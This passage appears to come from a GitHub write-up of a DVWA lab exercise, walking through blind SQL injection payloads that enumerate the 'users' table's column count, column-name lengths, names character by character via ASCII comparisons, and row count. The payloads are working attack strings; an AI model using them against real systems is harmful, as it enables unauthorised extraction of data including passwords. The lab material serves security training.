 To count the number of columns in the "users" table. This payload uses the "information_schema.columns" table to count the number of columns in the "users" table by matching the table name. The "count()" function is used to count the number of rows in the result set, which corresponds to the number of columns in the table. The integer value of 8 is used to check if the table has 8 columns. If the table has 8 columns it will say it already exists, if not it will say MISSING.
 
![image](https://github.com/nahcusira/dvwa/assets/87233531/028c1193-eb1b-459d-b3bb-cf508a27ead4)

•	Get length of each column name (7, 10, 9, 4, 8, 6, 10, 12): 1' and length(substr((select column_name from information_schema.columns where table_name='users' limit 1 offset 0),1))=7#

Use to check if the first column name of the "users" table has a name with a length of 7 characters. This payload uses a subquery to select the name of the first column in the "users" table using the "information_schema.columns" table. The "substr()" function is used to retrieve the first character of the column name, and the "length()" function is used to determine the length of the resulting string. The length is then compared to the integer value 7. If the length is 7 it will say it already exists, if not it will say MISSING. And the column after that we do the same.
 
1' and length(substr((select column_name from information_schema.columns where table_name='users' limit 1 offset 1),1))=10#

1' and length(substr((select column_name from information_schema.columns where table_name='users' limit 1 offset 2),1))=9#

1' and length(substr((select column_name from information_schema.columns where table_name='users' limit 1 offset 3),1))=4#

1' and length(substr((select column_name from information_schema.columns where table_name='users' limit 1 offset 4),1))=8#

1' and length(substr((select column_name from information_schema.columns where table_name='users' limit 1 offset 5),1))=6#

1' and length(substr((select column_name from information_schema.columns where table_name='users' limit 1 offset 6),1))=10#

1' and length(substr((select column_name from information_schema.columns where table_name='users' limit 1 offset 7),1))=12#

•	Get name of each column by bruteforcing each character (user_id, first_name, last_name, user, password, avatar, last_login, failed_login):

1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 1 offset 0),1))=117#
 
Use to check if the first character of the first column name in the "users" table is equal to the ASCII code for the letter "u". This payload uses a subquery to select the name of the first column in the "users" table using the "information_schema.columns" table. The "substr()" function is used to retrieve the first character of the column name, and the "ascii()" function is used to convert the character to its ASCII code. The code is then compared to the integer value of 117, which is the ASCII code for lowercase "u". If the first character is "u" it will say it already exists, if not it will say MISSING. And the characters after that we do the same.

Get number of records in table (5): 1' and (select count(user) from users)=5#
 
![image](https://github.com/nahcusira/dvwa/assets/87233531/d86d4840-467e-4425-b06a-4347f7f1d29d)
